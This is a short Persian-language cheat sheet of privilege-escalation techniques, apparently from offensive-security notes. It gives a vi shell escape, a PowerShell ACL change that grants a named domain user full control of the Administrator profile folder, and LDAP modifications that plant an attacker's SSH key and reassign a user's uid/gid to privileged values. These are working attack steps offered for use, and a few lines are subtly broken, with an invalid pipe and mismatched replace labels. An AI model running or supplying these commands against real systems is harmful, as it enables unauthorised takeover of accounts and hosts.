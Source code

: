### افزایش دسترسی در vi

```text
:!/bin/sh
```

### افزایش دسترسی با استفاده از acl

```text
$user = "megacorp\jorden"
$folder = "C:\Users\administrator"
$acl = get-acl $folder
$aclpermissions = $user, "FullControl", "ContainerInherit, ObjectInherit", "None", "Allow"
$aclrule = new-object System.Security.AccessControl.FileSystemAccessRule $aclpermissions 
$acl.AddAccessRule($aclrule)
set-acl -path $folder -AclObject $acl
get-acl $folder | folder
```

### افزایش دسترسی با ldap

```text

برای فعال سازی ssh با استفاده از ldap

0. exec ldapmodify -x -w PASSWORD
1. paste this
dn: cn=openssh-lpk,cn=schema,cn=config
objectClass: olcSchemaConfig
cn: openssh-lpk
olcAttributeTypes: ( 1.3.6.1.4.1.24552.500.1.1.1.13 NAME 'sshPublicKey' 
  DESC 'MANDATORY: OpenSSH Public key'
  EQUALITY octetStringMatch
  SYNTAX 1.3.6.1.4.1.1466.115.121.1.40 )
olcObjectClasses: ( 1.3.6.1.4.1.24552.500.1.1.2.0 NAME 'ldapPublicKey' SUP top AUXILIARY
  DESC 'MANDATORY: OpenSSH LPK objectclass'
  MAY ( sshPublicKey $ uid ) 
  )

برای ارتقا دسترسی به کاربر و گروه کاربری مورد نظر

2. exec ldapmodify -x -w PASSWORD
3. paste this
dn: uid=UID,ou=users,ou=linux,ou=servers,dc=DC,dc=DC
changeType: modify
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: content of id_rsa.pub
-
replace: EVIL GROUP ID
uidNumber: CURRENT USER ID
-
replace: EVIL USER ID
gidNumber: CURRENT GROUP ID
```
